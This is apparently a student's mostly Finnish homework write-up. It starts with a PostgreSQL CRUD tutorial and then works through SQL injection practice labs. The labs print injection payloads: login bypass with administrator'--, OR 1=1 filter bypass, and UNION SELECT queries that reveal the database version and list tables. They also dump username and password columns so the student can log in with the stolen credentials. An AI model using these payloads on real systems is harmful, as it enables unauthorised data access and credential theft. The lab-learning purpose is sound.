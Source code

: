 # h5

PostgreSQL Install and One Table Database – SQL CRUD tutorial for Ubuntu

Three line install
$ sudo apt-get update
$ sudo apt-get -y install postgresql
$ sudo systemctl start postgresql # needed in 2023
$ sudo -u postgres createdb $(whoami)
$ sudo -u postgres createuser $(whoami)
The trick is to use your Linux system username for PostgreSQL database and PostgreSQL user. Then authentication is automatic.

$ psql

table

tero=> CREATE TABLE students (id SERIAL PRIMARY KEY, name VARCHAR(200));
CREATE TABLE

insert

tero=> INSERT INTO students(name) VALUES ('Tero');
INSERT 0 1

select

tero=> SELECT * FROM students;

update

tero=> UPDATE students SET name='Tero Karvinen' WHERE name='Tero';

UPDATE 1

delete

tero=> DELETE FROM students WHERE name='Liisa';
DELETE 1
tero=> SELECT * FROM students;

SQL injection

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve.

A successful SQL injection attack can result in unauthorized access to sensitive data, such as:

Passwords.
Credit card details.
Personal user information.

You can detect SQL injection manually using a systematic set of tests against every entry point in the application. 

a.)
ensiksi asensin ja käynnistin postgreSQL tietokannan

![alku](https://github.com/AkiAleksi/h5/assets/112399816/194cd8be-a30c-43e2-a335-f66ab08e8ec7)


Sen jälkeen loin tietokannan ja käyttäjän.


$ sudo -u postgres createdb kali


$ sudo -u postgres createuser kali


Tein käyttäjästä kali databasen ownerin komennolla:



sudo -u postgres psql -c "ALTER DATABASE kali OWNER TO kali;"



![alku3](https://github.com/AkiAleksi/h5/assets/112399816/59879e3a-48f4-4867-9e67-2102bd76bae2)


Loin uuden taulun:

CREATE TABLE students (id SERIAL PRIMARY KEY, name VARCHAR(200));

![1jee](https://github.com/AkiAleksi/h5/assets/112399816/d33a7880-6ad9-4c9e-b5be-d437df410e65)


CRUD
Loin uuden nimen tauluun.

INSERT INTO students(name) VALUES ('Aki');

Sen jälkeen tein Read kohdan komennolla:

SELECT * FROM students;

![2jee](https://github.com/AkiAleksi/h5/assets/112399816/0d4d2d24-e0f2-4c7d-b2b1-3793d2d516b6)


Päivitin nimen Aki. Nimeen Aki Hietamäki:

UPDATE students SET name='Aki Hietamäki' WHERE name='Aki Hietamäki'; 

![3jee](https://github.com/AkiAleksi/h5/assets/112399816/c6b810fb-84b6-487a-a866-d2884351726e)




Sen jälkeen poistin:

DELETE FROM students WHERE name='Aki';


![4jee](https://github.com/AkiAleksi/h5/assets/112399816/0d65a9ca-9814-4d9f-be7b-bd7765676269)


b.)

SELECT * FROM Users WHERE id = 10 OR 1=1;

Yläpuolella oleva SQL lause palauttaa kaikki rivit "Users" taulusta,
koska OR 1=1 on aina tosi. Vaikka id 10 ei ole mitään sisältöä.


id avain on valmiina ohjelmassa. Käyttäjän syöte on id:n arvo ja johon on jatkettu OR lause.


![xdddd](https://github.com/AkiAleksi/h5/assets/112399816/e7b429b9-d019-493d-a320-c45d753e8f7e)

c.)

Menin labissa niin, että sain category kohdan näkyviin.

![Screenshot 2023-11-24 at 14 12 37](https://github.com/AkiAleksi/h5/assets/112399816/f305305f-dbc7-41e8-b524-3ba3e7f4d075)

Muokkasin category parametria antamalla sille arvon '+OR+1=1--

![Screenshot 2023-11-24 at 14 13 13](https://github.com/AkiAleksi/h5/assets/112399816/c700b799-ade3-4bb8-a589-90c5960d7900)



d.)

Muokkasin administrator parametria administrator'--

![Screenshot 2023-11-24 at 14 22 13](https://github.com/AkiAleksi/h5/assets/112399816/6501edc1-4712-43ec-8f7b-467a8b1a8e89)



![Screenshot 2023-11-24 at 14 23 20](https://github.com/AkiAleksi/h5/assets/112399816/810df58f-6ba5-4ae5-82f7-c5a7e251c392)


e.)


Pitää selvittää tietokannan tyyppi ja versio. Haavoittuvuus on kategoria filtterissä.
ORACLE tietokanta.

Löysin injection tehtävää varten labin walkthroughsta.
Muokkasin kategori parametria.
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

![Screenshot 2023-11-24 at 15 17 33](https://github.com/AkiAleksi/h5/assets/112399816/b5504c02-1e81-435c-8e0a-71fd18f03f08)




f.)

Tehtävänanto kertoo, että laboratoriossa on SQL-injektio haavoittuvuus tuotekategorian suodattimessa.

Löysin tehtävän lunntilapusta tämän komennon:

'+UNION+SELECT+@@version,+NULL#

Lisäsin komennon Zapissa kategoria kohtaan.


![Screenshot 2023-11-24 at 16 38 20](https://github.com/AkiAleksi/h5/assets/112399816/87f1af3d-33dc-4e81-aac8-655b4e6d5826)

Tehtävä suoritettu!!


g.)


Etsin kaikki taulut tietokannasta

'union+select+table_name,'123'+from+all_tables--

![user1](https://github.com/AkiAleksi/h5/assets/112399816/088dba52-1367-410c-a349-a9108927e78d)



![user2](https://github.com/AkiAleksi/h5/assets/112399816/1993c581-7e6a-4209-a78e-a30807da7946)


Löytyi PASSWORD_ ja USERNAME_ sarakkeet

![Screenshot 2023-11-25 at 12 53 09](https://github.com/AkiAleksi/h5/assets/112399816/75ec55ae-f133-4273-a09f-b0a3406db76e)

'+union+select+PASSWORD_RNBGTX,USERNAME_ECTSRI+from+USERS_VYMYAO--


![info](https://github.com/AkiAleksi/h5/assets/112399816/2e9d88f1-7fb7-44bc-8d93-30671a33410d)


Kirjauduin tiedoilla MY account


![okkkk](https://github.com/AkiAleksi/h5/assets/112399816/344ac34f-7b55-4826-bfc8-baf0cd398285)


h.)

Katsoin läpikävelyn kyseisestä tehtävästä.

'UNION+SELECT+NULL,NULL--


internal server error

Lisäsin NULL niin kauan, että ei tullut erroria.

'UNION+SELECT+NULL,NULL,NULL,NULL--


![Screenshot 2023-11-25 at 13 38 10](https://github.com/AkiAleksi/h5/assets/112399816/fcbcb7f7-1bb3-4f1f-a7af-4aa00c957c6a)






![Screenshot 2023-11-25 at 13 34 49](https://github.com/AkiAleksi/h5/assets/112399816/5f0a0222-1079-415b-9746-a702579cc0c6)

i.)


![ggg](https://github.com/AkiAleksi/h5/assets/112399816/3b1b10d9-04ca-43c7-b75b-b905b4961710)




![Screenshot 2023-11-25 at 14 02 58](https://github.com/AkiAleksi/h5/assets/112399816/1d823a47-037a-41ec-ba18-5000374d0c37)



![Screenshot 2023-11-25 at 14 07 55](https://github.com/AkiAleksi/h5/assets/112399816/2035889e-45f1-4cec-93b7-696b26b7357f)

j.)




![admin1](https://github.com/AkiAleksi/h5/assets/112399816/87743028-bcfd-493f-92f9-4e1e5e23769b)





![kkkkkkkkkk](https://github.com/AkiAleksi/h5/assets/112399816/ce1024f6-f6f4-4688-a31e-710b8393cee5)






![ratkaisu](https://github.com/AkiAleksi/h5/assets/112399816/2bc8f513-880a-47d8-a856-45cdc6689196)

